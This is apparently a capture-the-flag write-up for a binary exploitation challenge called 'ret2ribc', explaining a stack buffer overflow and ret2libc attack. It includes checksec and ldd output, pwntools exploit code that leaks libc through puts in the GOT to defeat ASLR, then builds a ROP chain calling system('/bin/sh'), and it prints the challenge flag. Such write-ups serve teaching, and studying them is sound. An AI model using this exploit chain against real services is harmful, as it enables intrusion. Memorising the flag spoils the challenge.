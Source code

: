 # ret2ribc

## problem

Announcing ret2ribc, the world's newest and most secure bone database!

see `ret2ribc` file

## solution

we can see in the file that it is vulnerable to a buffer overflow attack. 
this one was extremely difficult for me because i had never done a buffer overflow attack before and knew little about how to do one

if you want a good tutorial, see [here](https://bordplate.no/blog/en/post/interactive-rop-tutorial/) for a tutorial on how to do one

i also used [this article](https://pollevanhoof.be/nuggets/buffer_overflow_linux/3_aslr_ret2libc) to figure out how to bypass ASLR by leaking the address of libc

we run checksec on the file:

```
[*] '/tmp/ret2ribc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

if we run `ldd` multiple times, we can see that ASLR is enabled on our system because the libc.so.6 address changes:

```
quasar@quasar098:/tmp$ ldd ret2ribc
        linux-vdso.so.1 (0x00007ffd768c8000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa4ec0d8000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa4ec311000)
quasar@quasar098:/tmp$ ldd ret2ribc
        linux-vdso.so.1 (0x00007fff9fdf1000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f843afc6000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f843b1ff000)
quasar@quasar098:/tmp$ ldd ret2ribc
        linux-vdso.so.1 (0x00007ffed0355000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3a8684b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f3a86a84000)
```

i will assume that ASLR is enabled the remote machine as well

firstly, we are going to be using pwntools

```py
#!/usr/bin/python3

from pwn import *

locally = True

if locally:
    p = process("./ret2ribc")
    gdb_p = gdb.attach(p, "c")
else:
    p = remote("eth007.me", 42092)
```

now we have a process that we can use

next, we will initialize the other things

```py
libc = ELF("./libc.so.6")
elf = ELF("./ret2ribc")
rop = ROP("./ret2ribc")
```

in order to pop a shell, we need to overflow the buffer to overwrite the next values in the stack

our payload will look something like 

`[padding + address to pop rdi gadget + address to string /bin/sh in libc + address to ret gadget + address to system function in libc]`

to figure out the padding, we use gdb and a cyclic pattern (e.g. `aaaaaaabaaacaaadaaaeaaafaaagaaah`) to figure out how many characters to pad

the way that it works is that when the padding gets taken off the stack, the top of the stack will contain the 
address to the pop rdi gadget, which will make the program execute the `pop rdi` instruction. however, the next
value on the top of the stack after the `pop rdi` gadget address is the address to the string `/bin/sh`, which
means that the value `/bin/sh` will get popped into rdi (register for arg #1 in linux systems)

the execution is then brought to the `ret` instruction which pops the address to the `system` function from libc into rip, so it calls `system("/bin/sh")`

however, because ASLR is enabled, we don't know the address to the functions and strings in libc, because they keep changing, so we have to leak the addres of libc.

```py
p.recvuntil(b"e:")

leak_libc_payload = b"A" * 88 + p64(pop_rdi_address) + p64(puts_got_address)
leak_libc_payload += p64(puts_plt_address) + p64(main_function_address)

p.sendline(leak_libc_payload)

p.recvline()
p.recvline()
leaked_libc_address = int.from_bytes(p.recvline()[:-1], 'little')
leaked_libc_address -= libc.symbols["puts"]
print(f"found leaked libc addr: {leaked_libc_address}")
libc.address = leaked_libc_address
```

we can overflow the buffer and then resume execution at the `pop_rdi` address, and then at the address to puts in the GOT table.

the GOT table contains address of functions used in the code that belong to shared libraries. we have access to `puts`, so we will use that.

by doing this, we know the address of the function `puts` in libc. we have a copy of libc.so.6 (just get it from your local machine), so we know the offset from puts to the start of the libc.

it also restarts the program from main.

```py
p.recvuntil(b"e:")

libc_bin_sh_address = next(libc.search(b"/bin/sh\x00"))
libc_system_address = libc.symbols["system"]
ret_gadget_address = 0x401130

final_payload = b"A" * 88 + p64(pop_rdi_address) + p64(libc_bin_sh_address)
final_payload += p64(ret_gadget_address) + p64(libc_system_address)

p.sendline(final_payload)

p.interactive()
```

now, we execute our final payload because we know the address of the `/bin/sh` string and the `system` function.

the flag is `ictf{shells_are_basically_bones_right?}`

